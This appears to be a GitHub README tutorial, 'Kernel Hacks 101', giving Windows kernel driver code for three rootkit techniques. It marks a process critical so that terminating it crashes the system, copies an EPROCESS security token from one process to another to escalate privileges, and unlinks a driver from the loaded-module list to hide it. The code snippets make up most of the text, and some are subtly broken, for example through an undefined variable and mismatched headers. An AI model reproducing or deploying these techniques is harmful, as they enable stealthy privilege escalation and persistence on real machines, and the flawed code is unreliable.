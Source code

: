 ---

# Kernel Hacks 101: A Quick Guide

Here, we're diving into how to make your processes essential, copy privileges, and hide drivers.

## Required Libraries

Before you start coding, make sure to include the necessary libraries for kernel-level programming in Windows:

### Libraries to Import

- **`Windows.h`**: The main header for accessing Windows API functions.
- **`ntddk.h`**: Essential for writing device drivers and accessing kernel-mode functions.
- **`ntstatus.h`**: Contains definitions for NTSTATUS codes, useful for error handling.
- **`wdm.h`**: Provides access to Windows Driver Model functions and structures.

### Importing Libraries

Here’s how you import these libraries in your driver code:

```cpp
#include <ntddk.h>      // Core DDK functions
#include <ntstatus.h>   // NTSTATUS definitions
#include <wdm.h>        // WDM functions and structures
#include <windows.h>    // Windows API functions
```

## Make a Process Essential

### Objective

You want to make a process essential so that if it gets terminated, the system triggers a BSOD (Blue Screen of Death). This is done by using the `ZwSetInformationProcess` function.

### Function Explanation: `ZwSetInformationProcess`

- **Parameters**:
  - `hProcess`: A handle to the process you want to modify (obtained via `ZwOpenProcess`).
  - `ProcessBreakOnTermination`: An information class that specifies the information to set (this makes the process critical).
  - `BreakOnTermination`: A pointer to the value you want to set (typically `1` to enable the feature).
  - `sizeof(BreakOnTermination)`: Size of the data being sent.

- **Returns**: An NTSTATUS code indicating success or failure.

### Sample Code Snippet

```cpp
NTSTATUS MakeProcessEssential(DWORD PID) {
    NTSTATUS status;
    HANDLE hProcess;
    ULONG BreakOnTermination = 1;

    // Open the process to get a handle
    status = ZwOpenProcess(&hProcess, PROCESS_SET_INFORMATION, &clientId);
    // Check if opening was successful, then set the information
    if (NT_SUCCESS(status)) {
        status = ZwSetInformationProcess(hProcess, ProcessBreakOnTermination, &BreakOnTermination, sizeof(BreakOnTermination));
        ZwClose(hProcess);
    }
    return status; // Return the status of the operation
}
```

### Explanation of Code

1. **Opening the Process**: Use `ZwOpenProcess` to get a handle to the process specified by its PID.
2. **Setting the Flag**: If the handle is successfully obtained, `ZwSetInformationProcess` is called to set the "BreakOnTermination" flag.
3. **Handle Cleanup**: Always close the process handle to avoid leaks.

## Copy Privileges from One Process to Another

### Objective

You want to elevate the privileges of a target process by copying them from a source process.

### Function Explanation: `PsLookupProcessByProcessId`

- **Parameters**:
  - `ProcessId`: The ID of the process you want to look up.
  - `Process**`: A pointer that will receive the process object.

- **Returns**: An NTSTATUS code indicating success or failure.

### Sample Code Snippet

```cpp
NTSTATUS CopyPrivileges(ULONG srcPid, ULONG destPid) {
    PEPROCESS srcProcess, destProcess;

    // Lookup the source process by its PID
    if (NT_SUCCESS(PsLookupProcessByProcessId(ULongToHandle(srcPid), &srcProcess))) {
        // Lookup the destination process
        if (NT_SUCCESS(PsLookupProcessByProcessId(ULongToHandle(destPid), &destProcess))) {
            // Copy the security token from source to destination
            *(UINT64*)((UINT64)destProcess + TOKEN_OFFSET) = *(UINT64*)((UINT64)srcProcess + TOKEN_OFFSET);
        }
    }
    return STATUS_SUCCESS; // Return success after copying
}
```

### Explanation of Code

1. **Process Lookup**: Use `PsLookupProcessByProcessId` to obtain pointers to both the source and destination processes.
2. **Copying the Token**: The security token from the source process is copied to the destination process, effectively elevating its privileges.

## Hide a Driver

### Objective

You want to make a driver invisible in the system's loaded drivers list.

### Function Explanation: Adjusting the Load Order List

- **Function**: Modify the linked list that maintains the loaded drivers.
- **Parameters**: 
  - `DriverObject`: A pointer to the driver object you want to hide.

### Sample Code Snippet

```cpp
VOID HideDriver(PDRIVER_OBJECT DriverObject) {
    PLDR_DATA_TABLE_ENTRY entry = (PLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;
    
    // Adjust the linked list to hide the driver
    entry->InLoadOrderLinks.Blink->Flink = entry->InLoadOrderLinks.Flink;
    entry->InLoadOrderLinks.Flink->Blink = entry->InLoadOrderLinks.Blink;
}
```

### Explanation of Code

1. **Get Driver Entry**: Access the driver’s data table entry through the `DriverObject`.
2. **Modify Links**: Adjust the pointers in the linked list to effectively remove the driver from the list of loaded drivers, making it hidden.

## Wrapping Up

That’s a wrap! Now you have a better understanding of how to make a process essential, copy privileges, and hide a driver. Just remember:

- **Always test in a safe environment** (like a VM).
- **Be aware of the legal implications** of kernel-level programming.

## Resources
(for token offset)[https://github.com/XaFF-XaFF/Kernel-Process-Hollowing]
